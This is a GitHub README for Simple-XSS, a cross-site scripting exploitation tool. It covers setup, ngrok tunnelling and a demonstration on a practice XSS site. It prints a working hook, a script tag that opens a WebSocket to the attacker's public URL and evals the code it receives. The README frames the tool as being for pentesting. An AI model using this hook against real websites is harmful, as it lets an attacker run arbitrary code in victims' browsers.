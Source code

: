 # Simple-XSS

<p align="center">
  <img src="res/big_logo.png"  alt="logo"/>
</p>

<a href="https://github.com/CrazyProger1/Simple-XSS/releases/download/V0.2/Simple-XSS-Windows-x64.zip"><img alt="GitHub all releases" src="https://img.shields.io/github/downloads/CrazyProger1/Simple-XSS/total"></a>
<a href="https://github.com/CrazyProger1/Simple-XSS/blob/master/LICENSE"><img alt="GitHub" src="https://img.shields.io/github/license/CrazyProger1/Simple-XSS"></a>
<a href="https://github.com/CrazyProger1/Simple-XSS/releases/latest"><img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/CrazyProger1/Simple-XSS"></a>

Simple-XSS is a multi-platform cross-site scripting (XSS) vulnerability exploitation tool for pentesting. This application will help you
create a hook that can easily
and reliably catch a client by downloading a payload to their browser and executing it. You don't even need a white IP
for this because the application will take care of tunneling the connection between you and the victim.

**Disclaimer:** This program is provided for educational and research purposes only.
The creator of this program does not condone or support any illegal or malicious activity,
and will not be held responsible for any such actions taken by others who may use this program.
By downloading or using this program, you acknowledge that you are solely responsible for any consequences
that may result from the use of this program.

## Usage

> Use `--help` argument to get help.
![commandline help](docs/help.png)

### GUI-Guide

Firstly, choose the hook. [Default hook](hooks/default) is the simplest hook, it is only suitable for forms without XSS
protection:

![step 1](docs/step_1.png)

Then, choose the payload. [Hello world payload](payloads/hello_world) is an example payload, it just alerts "Hello,
World!":

![step 2](docs/step_2.png)

Now, lets set up tunneling. Tunneling is needed to make a local server public. You have 2 options:

1) use one of the suggested tunneling apps (now it's only [ngrok](https://ngrok.com/))
2) tunnel ports yourself and pass the public URL of the HTTP tunnel to the program

![step 3](docs/step_3_1.png)

![step 3](docs/step_3_2.png)

Finally, you can run the process!

![step 4](docs/step_4.png)

Now you can copy the hook and start hunting ;D

![step 5](docs/step_5.png)

To demonstrate the possibilities, we can use site [xss-game.appspot.com](https://xss-game.appspot.com/).
Enter the hook into search form:

![step 6](docs/step_6.png)

Press "Search". As you can see, we have the alert dialog!

![step 7](docs/step_7.png)

Also, we have "Hello, World!" in our console:
![step 8](docs/step_8.png)


### Hook

> _Hooks folder: [hooks](hooks)_

**Hook** is an HTML code snippet designed to be embedded in a vulnerable XSS form. It looks like:

```html

<script>c = new WebSocket('{{environment.public_url}}');c.onmessage = (e) => eval(e.data);</script>
```

**NOTE:** _As you can see here is a built-in variable: {{environment.public_url}}. You can read more about
this below._

This is a [default](hooks/default) hook. When it's embedded in the vulnerable form, it downloads the JS
code ([payload](#payload)) via
WebSockets
protocol from the server and
executes it using [eval](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval).

Hook has the following structure:

```
|
+-- hook_folder
    |
    +-- hook.html
    |
    +-- package.toml
```

**hook.html** - main file, contains HTML code that can be embedded in vulnerable form.

**package.toml** - metadata file, contains data about hook such as name, description, author and version.

### Payload

> _Payloads folder: [payloads](payloads)_

**Payload** is an arbitrary JS code that loaded by hook on a vulnerable page and executed
with [eval](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval).

Payload has the following structure:

```
|
+-- payload_folder
    |
    +-- payload.js
    |
    +-- package.toml
    |
    +-- init.py
```

**payload.js** - main file, contains arbitrary JS code.

**package.toml** - metadata file, contains data about payload such as name, description, author and version.

**init.py** - python file, imported when loading payload. Allows you to interact with the client side of payload
(payload.js) via WebSockets protocol.

### Templating

**Built-in objects** is an objects passed into hook & payload main files
using [Jinja](https://jinja.palletsprojects.com/)
templating engine. It contains additional information that may be needed when loading a hook or payload.

#### Environment

- **public_url** - public address of WebSocket server

#### Metadata

**package** - hook or payload

- **name** - name of package
- **author** - package author
- **version** - version of package
- **description** - package description

If you need to use some variable, just use such construction: {{object.variable}}.
For example:

```
alert('{{metadata.name}} - V{{metadata.version}}')
```

The provided payload code snippet will display an alert dialog showcasing the name and version of the payload.

## Interface

> _Thanks to the use of the [Python Flet framework](https://flet.dev/), the application works equally well both in the
browser and in the graphical interface._

### Graphical

![GUI](docs/GUI.png)

### WEB

![WEB](docs/WEB.png)

### Command-Line

![CLI](docs/CLI.png)

## Installation

### Windows

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install requirements:

```commandline
cd Simple-XSS
pip install -r windows_requirements.txt
```

And finally you can run it:

```commandline
python main.py
```

### Linux

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install requirements:

```commandline
cd Simple-XSS
pip install -r linux_requirements.txt
```

And finally you can run it:

```commandline
python main.py
```

## License

Simple-XSS is released under the MIT License. See the bundled [LICENSE](LICENSE) file for details.
